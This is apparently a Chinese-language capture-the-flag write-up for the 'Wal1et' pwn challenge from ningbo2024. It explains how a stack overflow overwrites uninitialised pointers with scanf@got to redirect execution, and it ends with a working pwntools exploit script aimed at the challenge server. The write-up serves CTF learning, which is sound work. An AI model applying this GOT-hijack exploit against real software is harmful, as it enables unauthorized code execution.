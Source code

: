 ```yaml
---
title: ningbo2024 初赛 - Wal1et
date: 2024/5/8 23:58:00
tags:
    - got-hijack
excerpt: 通过栈溢出覆盖`scanf@got`，利用`check`函数中的`scanf`实现代码执行，最终获取flag。
---
```


## 文件属性

|属性  |值    |
|------|------|
|Arch  |x32   |
|RELRO|Partial|
|Canary|on    |
|NX    |on    |
|PIE   |off   |
|strip |no    |

## 解题思路

```c
void check(void)

{
  int local_14;
  int local_10;
  
  printf("Now try the First password : ");
  __isoc99_scanf("%d",local_14);
  fflush(_stdin);
  printf("Now try the Second password : ");
  __isoc99_scanf("%d",local_10);
  puts("Let me think......");
  if ((local_14 == 0x528e6) && (local_10 == 0xcc07c9)) {
    puts("OMG!YOU SUCCESS!"); // check + 0x98
    system("/bin/cat flag");
    return;
  }
  puts("You Failed! Try again.");
                    // WARNING: Subroutine does not return
  exit(0);
}
```

审计`check`函数的代码，32位，`local_14`和`local_10`既是int也是指针。在函数`begin`中，
可以输入大量数据覆盖栈帧，而这两个指针的值并未经过初始化，从而可以指定这两个变量的值。
题目要求这两个变量的值为`0x528e6`和`0xcc07c9`，但它们不可能是有效的指针，在运行scanf的时候会引发SIGSEGV。
因此将其覆盖为`scanf@got`，并利用`check`中的`scanf`将`check+0x98`写入指针中，
这样在读入第二个数的时候就会跳到`scanf@plt`，再运行`scanf@got`的地址，
即从`puts("OMG!YOU SUCCESS!")`开始运行，打印出flag

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './Wal1et'

def payload(lo:int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh)
    else:
        sh = remote('101.132.170.0', 32687)
    elf = ELF(EXE)
    scanfGot = elf.got['__isoc99_scanf']

    sh.sendlineafter(b'JUST', b'1')
    # reach the length of %108s, so use send to prevent \n drop down
    sh.sendafter(b'name', b'Rocket'.ljust(0x64, b'\0') + p32(scanfGot) + p32(scanfGot))
    sh.sendlineafter(b'First', str(0x804871b).encode()) # check + 0x98
    sh.sendlineafter(b'Second', str(0x804871b).encode())

    sh.recvuntil(b'flag{')
    flag = sh.recvuntil(b'}')
    success(f'{GOLD_TEXT("Flag is:")} {"flag{"}{flag.decode()}')
    sh.close()
```
